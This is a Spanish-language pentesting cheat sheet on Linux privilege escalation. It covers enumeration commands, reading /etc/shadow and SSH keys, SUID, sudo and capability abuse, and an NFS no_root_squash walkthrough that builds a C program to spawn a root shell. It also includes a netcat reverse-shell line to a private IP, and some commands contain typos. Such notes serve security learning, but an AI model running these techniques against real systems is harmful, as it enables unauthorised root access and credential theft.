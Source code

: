 ## Enumeración básica

``` bash
*** ls -la a la raiz del sistema siempre ***
id # privilegios usuario actual (lxd o docker)
uname -a # información kernel
su - <user> # no perder las variables
lsb_release -a # enumerar info del S.O
env # para ver las variables del sistema
ss -tulpn # ver puertos/servicios internos que hay abiertos
netstat -a # muestra todos los puertos que estan en escucha y conectados
ps aux # procesos ejecutandose en el sistema de manera ordenada
cat /etc/login.defs | grep “ENCRYPT_METHOD” # ver que tipo de encriptación se utiliza en el sistema en los hashes de las passwords
hash-indentifier # para ver que tipo de encryptacion tiene el hash
hashid <hash>
ps -eo user,command # reporta todos los comandos que se están ejecutando en el sistema
watch -d 'ps -ef # Procesos a tiempo real como pspy64'
#shell
python3 -c 'import ptpy;pty.spawn("/bin/bash")'
python -c 'import ptpy;pty.spawn("/bin/bash")'
ps aux --sort="-%mem" |more # procesos ejecutanose
curl "http://192.168.1.2/login.php" --data-urlencode 'username=admin&password=pass123' # Enviar datos url encodeados 
php -r 'print urlencode("nc -e /bin/sh 192.168.218.147 5344");' ;echo # Encodear datos
```

### Abusando de grupos

- [lxd/lxc](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-lxd-lxc)

- [pcap](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-pcap)

## Comprobar rutas importantes


``` bash
# Rutas core
/etc/passwd | cut ":" -f 1
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/home/<user>/
/home/<user>/.ssh
/home/<user>/bash_history
# Comprobar que haya subdominios
/etc/nginx/sites-available
/etc/apache2/sites-available
```

### Enumeración automatizada

- LinPeas: [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

- Linux Smart Enumeration: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

- LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)


## Abuso permisos sudo

``` bash
sudo -l # comprobar que el usuario actual tiene capacidad de ejecutar un binario como root
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FmvX9l4BBwhij56cwtYtY%252Fimagen.png%3Falt%3Dmedia%26token%3D911accba-2f48-4531-b6e7-87466a56c75e&width=768&dpr=4&quality=100&sign=6cb66ffe5970351094f92961a9c95f60738488c2c4880b85f74a21d5761def41)

Si nos encontramos con env_keep+=LD_PRELOAD en el sudo -l podríamos hacer que cualquier programa utilice librerías compartidas, para saber como explotarlo accede a este [link](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)

## Abuso permisos SUID

``` bash
find / -perm -4000 2>/dev/null # enumerar privilegios SUID
find / -perm -4000 2>/dev/null | grep “etc” # enumerar por archivos que estenexi en la ruta /etc/
find / -perm -4000 -o- -perm -2000 -o- -perm -6000 # enumerar grupos
```

## Encontrar carpetas/archivos que podemos escribir


``` bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u # directorios
find / -writable 2>/dev/null | grep -v -i -E 'proc|run|sys|dev' # archivos
```

## Enumerar tareas en proceso (cronjob)

``` bash
cat /etc/crontab o crontab -l
cat /var/spool/cron # para las cronjobs del sistema
cat /etc/anacron
systemctl list-timers # ver tareas que se van a ejecutar en los proximos minutos
```

### Monitorizador comandos script bash

``` bash
#!/bin/bash
old_process=$(ps -eo user,command)
while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

## Abuso Capabilites

``` bash
getcap -r / 2>/dev/null # de forma recursiva ver las capabilities que hayan definidas en el sistema
setcap -r <ruta> # quitar capabilty
setcap cap_setuid+ep <ruta del archivo> # asignar SUID permisios a la ruta
```

## Bypass restricted bash


``` bash
ssh user@ip bash # y después realizamos el tratamiento de la TTY
ssh user@ip 'bash --norc --noprofile'
```

## NFS

NFS (Network File System) es un protocolo de red utilizado para compartir sistemas de archivos entre computadoras. En el contexto de la escalada de privilegios en Linux, NFS puede ser utilizado como una técnica para obtener acceso a archivos o directorios que no son accesibles por defecto para un usuario sin privilegios.

Y se encuentra en este archivo:

``` bash
/etc/exports
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fl1fXjFHQP55lXPnocFuR%252Fimagen.png%3Falt%3Dmedia%26token%3D7a51ba38-5067-444e-9a5d-06877c9c97b8&width=768&dpr=4&quality=100&sign=c15bd4d657ad9ccb963bc959bd16549948a4ccf50fa8233fc3373029468be1c4)

El elemento crítico para este vector de escalada de privilegios es la opción "no_root_squash" que puede ver arriba. De forma predeterminada, NFS cambiará el usuario raíz a nfsnobody y eliminará cualquier archivo para que no funcione con privilegios de raíz. Si la opción "no_root_squash" está presente en un recurso compartido grabable, podemos crear un ejecutable con el conjunto de bits SUID y ejecutarlo en el sistema de destino.

Primero tenemos que enumerar los recursos compartidos montables de la máquina victima:

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FjDUVGqE8KvN7IZUsExvR%252Fimagen.png%3Falt%3Dmedia%26token%3Dbc38b2eb-e69a-4f50-a53c-fd4fef73bfa8&width=768&dpr=4&quality=100&sign=52678f29251f4916884580faea324db856ad289071b5d238bbd405f4bea68471)

Montaremos un recurso compartido "no_root_squash" en nuestra máquina local

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FFdUXoLfjz6IQgPjmnGND%252Fimagen.png%3Falt%3Dmedia%26token%3D92297b52-d145-4bdd-8a07-522736f71f51&width=768&dpr=4&quality=100&sign=c0313f43f2eda927dc020ccce7bc357859209bdac901a7b140367cd65eb5dbc0)

Creamos un script con C con una /bin/bash y que nos de root cuando se ejecute en la victima


``` bash
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Lo compilamos y le damos permisos SUID

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F8V6t3iClp332K10qdGIf%252Fimagen.png%3Falt%3Dmedia%26token%3Dd250d589-cdfb-4ce2-8702-b46f783f78a1&width=768&dpr=4&quality=100&sign=df97bc0e3b5e6c03a7a23a25552b7f0b875d93c09e1a9e254912b76dcfbc9563)

No hace falta transferirlos por qué ya está en la máquina victima ya que hemos estado trabajando en ella mediante un recurso compartido.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FwryJBgnXkQGYibiqyO4r%252Fimagen.png%3Falt%3Dmedia%26token%3D938aab09-bf93-487b-a872-b2ce64fbcf63&width=768&dpr=4&quality=100&sign=532d8c89d1fdb50c26b2936655e026dcc08d27bc0a607739fe0da6336cf40fc8)

Lo ejecutamos y somos root

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FzK261O2yZrUKcsKj9CSV%252Fimagen.png%3Falt%3Dmedia%26token%3D6cde92a9-5831-4cff-8545-c1056488994b&width=300&dpr=4&quality=100&sign=f9410a7fa0ef3e982394f81c1ecbde73bf1d5ec3368b43fb7abe42446593b6b3)

## Kernel exploits

```
uname -a
lsb_release -a
```

### Consejos

1. Se muy especifico a la hora de buscar la version del kernel en exploitdb,google o searchsploit.

2. Entiende muy bien el exploit antes de ejecutarlo, a veces se tienen que modificar.

3. Puede que el script se tenga que interactuar en el futuro así que cuidado.

4. Para traspasar el exploit a la máquina victima, como siempre la carpeta /tmp y en tu máquina abres un servidor `python3 -m http.server 9000`


Si creemos que puede que el sistema comprometido es vulnerable de kernel, como un script que no sea de ese mismo kernel lo ejecutemos en el sistema puede romperlo.

Para asegurarnos tenemos [[Linux Exploit Suggester)](https://github.com/jondonas/linux-exploit-suggester-2|LES (Linux Exploit Suggester)]] que nos ayudará a saber cual es el CVE correcto para ejecutar.

## Analizar archivos

``` bash
ltrace <archivo> # se utiliza para rastrear las llamadas a funciones bibliotecarias que hace un programa en tiempo de ejecución.
strings <archivo> #  busca en un archivo binario (como un archivo ejecutable o una biblioteca compartida)
```
